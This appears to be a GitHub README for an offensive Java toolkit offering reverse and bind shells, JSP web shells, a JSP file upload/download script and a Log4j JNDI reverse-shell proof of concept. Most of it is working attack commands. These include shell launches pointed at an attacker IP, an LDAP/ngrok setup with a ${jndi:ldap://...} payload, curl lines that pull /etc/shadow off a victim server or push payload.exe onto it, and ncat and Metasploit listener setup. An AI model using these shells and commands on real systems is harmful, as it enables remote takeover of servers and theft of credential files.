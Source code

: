 # Java Reverse TCP

JAR, JSP, and Java files for communicating with a remote host.

Remote host will have a full control over the client and all the underlying system commands.

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Program will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Built with JDK v8 on Apache NetBeans IDE v12.2 (64-bit). All the files require Java SE v8 or greater to run.

JAR and Java files were tested with Java v8 update 282 on Windows 10 Enterprise OS (64-bit) and Kali Linux v2021.2 (64-bit).

JSP scripts were tested on Apache Tomcat Version v7.0.100 on XAMPP for Windows v7.4.3 (64-bit).

Made for educational purposes. I hope it will help!

## Table of Contents

* [JAR Shells](#jar-shells)
* [Log4j Shells](#log4j-shells)
* [JSP Shells](#jsp-shells)
	* [JSP Reverse Shell](#jsp-reverse-shell)
	* [JSP Web Shells](#jsp-web-shells)
* [JSP File Upload/Download Script](#jsp-file-uploaddownload-script)
	* [Case 1: Upload the Script to the Victim’s Server](#case-1-upload-the-script-to-the-victims-server)
	* [Case 2: Upload the Script to Your Server](#case-2-upload-the-script-to-your-server)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## JAR Shells

Check the source code of JAR files:

* [/src/Reverse Shell/src/reverse/shell/ReverseShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Reverse%20Shell/src/reverse/shell/ReverseShell.java)
* [/src/Reverse Shell/src/reverse/shell/BindShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Bind%20Shell/src/bind/shell/BindShell.java)

---

Open your preferred console from [/jar/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/jar) and run the following commands:

```fundamental
java -jar Reverse_Shell.jar 192.168.8.185 9000

java -jar Bind_Shell.jar 9000
```

## Log4j Shells

This PoC was tested on Kali Linux v2021.4 (64-bit).

**Change the IP address and port number inside the source files as necessary.**

Open your preferred console from [/log4j/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/log4j) and run the following commands:

Compile the source file:

```fundamental
javac ReverseShell.java
```

Start a local web server from the same directory as the compiled class file (i.e. `ReverseShell.class`):

```fundamental
python3 -m http.server 9090

python3 -m http.server 9090 --directory somedirectory
```

Download and build LDAP server:

```bash
git clone https://github.com/mbechler/marshalsec && cd marshalsec && mvn clean package -DskipTests && cd target
```

Start a local LDAP server and create a reference to the compiled class file on your local web server:

```fundamental
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:9090/#ReverseShell
```

Credits to the author for [marshalsec](https://github.com/mbechler/marshalsec)!

Give the local LDAP server a public domain with [ngrok](https://ngrok.com):

```fundamental
./ngrok tcp 1389
```

Build the JNDI string (obfuscate it however you like):

```fundamental
${jndi:ldap://x.tcp.ngrok.io:13337/ReverseShell}
```

## JSP Shells

### JSP Reverse Shell

**Change the IP address and port number inside the script as necessary.**

Copy [/jsp/jsp_reverse_shell.jsp](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/jsp_reverse_shell.jsp) to your projects's root directory or upload it to your target's web server.

Navigate to the file with your preferred web browser.

### JSP Web Shells

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_post.jsp) based on HTTP POST request.

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_get.jsp) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

## JSP File Upload/Download Script

Check the [simple JSP file upload/download script](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/files.jsp) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```fundamental
curl -s -k -X POST https://victim.com/files.jsp -F file=@/root/payload.exe
```

Download a file from the victim's PC to your PC:

```fundamental
curl -s -k -X GET https://victim.com/files.jsp?file=/etc/shadow -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your JSP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```fundamental
curl -s -k -X POST https://your-server.com/files.jsp -F file=@/etc/shadow
```

Download a file from your PC to the victim's PC:

```fundamental
curl -s -k -X GET https://your-server.com/files.jsp?file=/root/payload.exe -o payload.exe

curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/java-reverse-tcp/blob/main/img/reverse_shell.jpg" alt="Reverse Shell"></p>

<p align="center">Figure 1 - Reverse Shell</p>

<p align="center"><img src="https://github.com/ivan-sincek/java-reverse-tcp/blob/main/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 2 - Ncat</p>
